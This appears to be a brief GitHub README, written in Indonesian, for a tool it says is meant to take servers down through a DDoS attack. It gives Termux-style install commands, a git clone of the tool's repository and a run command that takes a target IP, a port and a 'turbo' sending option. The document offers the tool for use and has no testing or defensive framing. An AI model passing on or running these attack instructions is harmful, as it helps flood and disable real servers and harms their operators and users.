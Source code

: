 # DDoS
untuk meng downkan server
cara pakai
pkg intsall python
pkg install git
git clone https://github.com/Bagus26/DDoS
cd DDoS
ls
python DDoSAttack.py -t (ip) -p (port) -s (send turbo)
